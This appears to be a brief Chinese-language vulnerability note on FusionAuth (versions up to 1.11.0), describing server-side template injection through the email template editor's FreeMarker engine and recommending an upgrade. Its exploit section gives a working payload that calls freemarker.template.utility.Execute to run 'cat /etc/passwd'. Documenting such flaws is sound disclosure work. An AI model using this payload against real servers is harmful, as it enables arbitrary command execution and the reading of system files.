 ### 一 漏洞描述
FusionAuth是一个免费的身份管理平台，安装简单，易于集成。FusionAuth提供登录、注册、MFA、SSO、电子邮件模板、本地化、密码控制、强哈希、网络挂钩、基于角色的访问控制等功能。  
FusionAuth使用了 Apache FreeMarker 模板引擎，经过身份验证的用户允许编辑电子邮件模板（Settings/Email Templates/Edit/Preview），可通过利用freemarker.template.utility.Execute执行任意系统命令。

影响范围: FusionAuth <= 1.11.0

### 二 漏洞利用
`${"freemarker.template.utility.Execute"?new()("cat /etc/passwd")}}`
![img.png](img.png)

### 三 漏洞修复
升级

> 参考链接  
> https://blog.csdn.net/sycamorelg/article/details/117737584
